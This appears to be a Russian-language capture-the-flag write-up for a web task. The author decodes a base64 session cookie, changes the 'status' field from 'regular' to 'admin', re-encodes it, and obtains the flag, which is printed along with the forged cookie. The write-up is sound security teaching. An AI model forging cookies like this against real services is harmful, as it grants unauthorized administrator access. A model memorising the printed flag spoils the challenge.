



```txt
Описание
Здесь собираются только самые изысканные ценители печенек и сладких угощений.
```

## Разведка и решение
Переходим по url таска и видим страницу авторизации.

Вводим рандомный ник. 

Чтобы увидеть флаг, у нас должны быть права администратора. Перейдем в cookie и проанализируем их.
```text
eyJ1c2VybmFtZSI6ICJQcm9qZWN0X0lET1IiLCAic3RhdHVzIjogInJlZ3VsYXIifQ==
```
Декодируем строку:
```text
{"username": "Project_IDOR", "status": "regular"}
```
Теперь меняем статус на admin и кодируем обратно в base64.
```text
eyJ1c2VybmFtZSI6ICJQcm9qZWN0X0lET1IiLCAic3RhdHVzIjogImFkbWluIn0=
```

Получаем флаг, кайф.
# Итоговый Flag
```text
DUCKERZ{N0t_$3CR3t_c00Kie}
```
